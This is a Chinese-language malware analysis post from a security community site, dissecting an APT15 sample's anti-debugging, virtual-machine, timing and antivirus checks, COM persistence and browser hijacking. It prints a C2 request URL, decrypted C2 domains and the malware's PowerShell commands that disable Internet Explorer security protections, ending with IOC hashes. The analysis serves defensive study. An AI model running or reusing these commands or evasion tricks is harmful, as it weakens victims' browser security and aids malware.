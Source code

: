 

# APT15 技术手段分析 - 先知社区

APT15 技术手段分析

- - -

[![](assets/1708870396-6c7334ecee8462da2f079f2a57062ab3.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092742-686969ba-d058-1.jpeg)

  APT15 组织具备完善的反侦查手段，如 PEB 结构/进程检测和 Int3 异常调试状态，也有虚拟机检测，反杀软等目标化工程，本篇技术分析主要对检测技术和劫持分析。

### 样本分析

#### 反调试

fs:0x30->PEB.NtGlobalFlag(0x68) 如果等于 0x70 意味着调试状态，如下所示：

[![](assets/1708870396-c9138f4ebc876c45595474ca31899b01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092747-6b61719e-d058-1.png)

Int3 反调试，如下所示：

[![](assets/1708870396-2ddb806b6710be39ec948af71ead3027.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092749-6cf53a40-d058-1.png)

OD 进程检测

[![](assets/1708870396-b22b7f5ce07cc1a3235c1b69d5ec912c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092753-6ef051ea-d058-1.png)

动态获取 WinHttpApi

[![](assets/1708870396-8fd066ddfe00b80556627e42dd368d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092756-70d167c4-d058-1.png)

C2 请求报文特征，内存解密数据如下所示：

[![](assets/1708870396-616be15866f27cab06051b8565061363.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092758-72404d8c-d058-1.png)

[![](assets/1708870396-83cd51d76223ca5cff22c999841c9b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092801-73dac3a2-d058-1.png)

#### 虚拟机检测

[![](assets/1708870396-2a22b8dac57004ab259c0e7802ac1222.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092804-75d89a58-d058-1.png)

实际物理内存检测，如果小于 0x8000000000 内存中止程序。

[![](assets/1708870396-78e45d6de924933d400d5f98620c57c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092810-7919447e-d058-1.png)

创建互斥体，创建分发线程等待事件结束退出。

[![](assets/1708870396-942a7b896087edafb04a1bf7b0b020a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092853-92ea500a-d058-1.png)

#### 时间检测

[![](assets/1708870396-b031b1455fa599c3ad253bba303a2ae3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092817-7d3f26fe-d058-1.png)

梳理如下

[![](assets/1708870396-c696609d527a8d088ecbc54e56d3c1cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092823-8131a0f2-d058-1.png)

#### 杀软检测

系统信息采集，包含主机/用户名/权限，拼接释放路径检测是否有 360tray.exe/wireshark.exe 运行，如下所示

[![](assets/1708870396-b353f2ab7e7574e16e182eabdb198567.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092908-9bae6bae-d058-1.png)

[![](assets/1708870396-667fb677bddcc1ed9813e721d37c49e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092911-9d6ec6c8-d058-1.png)

创建线程用于持久化操作，利用 Com 接口完成：

[![](assets/1708870396-1b4c68a13af75049811fc4524376ae90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092913-9ee2b456-d058-1.png)

再次检测 360/Wirsharek 进程，确保无误后进入下一步操作

[![](assets/1708870396-7bb98130da651f608ae0a9a71a0f3c69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092916-a092eece-d058-1.png)

#### 浏览器劫持

检测系统安装浏览器，如果是指定浏览器，退出

[![](assets/1708870396-0939a6659ddee64fe3152b900395699c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092920-a3072080-d058-1.png)

设置不检查 Internet Explorer 是否为默认浏览器。

[![](assets/1708870396-5782b0b7c6bfc91841cc7e1371c129d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092923-a4772bea-d058-1.png)

  设置代理，利用 Com 接口请求代理服务器，通过 server\_ver，remark，search 等标识来识别来自于客户端请求，如下所示：

```bash
http://www.apecdns.asia/Users/login.asp?type=query&server_ver=V21&remark=OLEdrv&search=3991
```

[![](assets/1708870396-2dc95ef7133d52a5f7be0015caab1a93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092926-a68387e4-d058-1.png)

[![](assets/1708870396-613f5f6f7fed1eefce8210c2bf5850e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092928-a7e0e9a6-d058-1.png)

对无效站点证书关闭警告，如下图所示：

[![](assets/1708870396-88f29f8b8dd72e5cde00a20fde70a67e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092931-a9a3e568-d058-1.png)

数据通信编码 base64，部分已经更换成 AES

[![](assets/1708870396-f58faad47de2d949edaa1ceaef27e811.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092933-aae99260-d058-1.png)

  利用 Com 接口执行 Http 请求，将指令封装至报文中，如&Cmd，=101/102 用来获取对应的功能指令，部分功能如下：

下载文件执行

[![](assets/1708870396-fdbe1e121b3d90ea8b5b3cb4dbfe203a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092936-acb5a840-d058-1.png)

释放 vbs 执行

[![](assets/1708870396-7cdee596b63db3737d2b2b53a21ffba7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092940-aee9259c-d058-1.png)

[![](assets/1708870396-6e1bce75a3bcb2b5716dcb0a10852559.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092942-b0606750-d058-1.png)

数据保存

[![](assets/1708870396-4f91057ebba0e7c0ae3eaebf64201c8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092946-b29c10e6-d058-1.png)

另一种网络劫持手段，内存解密域名如下：

```bash
press|press.premlist.com|upgrade.aspx|index.aspx|newinfo.aspx|draft.aspx|contexts.aspx|views.aspx|chart.aspx|channels.aspx|global.aspx
```

[![](assets/1708870396-b9556de63ce39790ff156d886c9b50ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092950-b4ca8e4c-d058-1.png)

请求键值 Domain/Host，查询和设置代理

[![](assets/1708870396-3e7c263d44b8ccd915f9df4468ed87d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092953-b65873c8-d058-1.png)

内存解密 Powershell，执行如下：

[![](assets/1708870396-c2a4acb02fb86e42a164b41abf1fbe0e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092956-b8267c2c-d058-1.png)

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Property DWORD -name WarnonZoneCrossing -value 0 -Force}"
```

```bash
powershell -command 
"&{New-ItemProperty' HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap' -Property DWORD -name IEHarden -value 0 -Force}"..
```

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\PhishingFilter' -Property DWORD -name Enabled -value 1 -Force}"
```

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\PhishingFilter' -Property DWORD -name ShownVerifyBalloon -value 3 -Force}"
```

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Main' -Property String -name Check_Associations -value 'no' -Force}"
```

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Main' -Property DWORD -name DEPOff -value 1-Force}"
```

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Recovery' -Property DWORD -name AutoRecover-value 2 -Force}"
```

```bash
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3' -Property DWORD -name 2500 -value 3 -Force}"
```

### IOCs

```bash
03a2f5ea0cea83e77770a4018c4469ab
7d584187e33f58f57d08becf3cc75b72
9ad5ad17c08632493dfbacb3be84dc21
c79b60e5e923f5fde2a02991238ae688
ff49b26664070b080d30d824bd2f3064
```
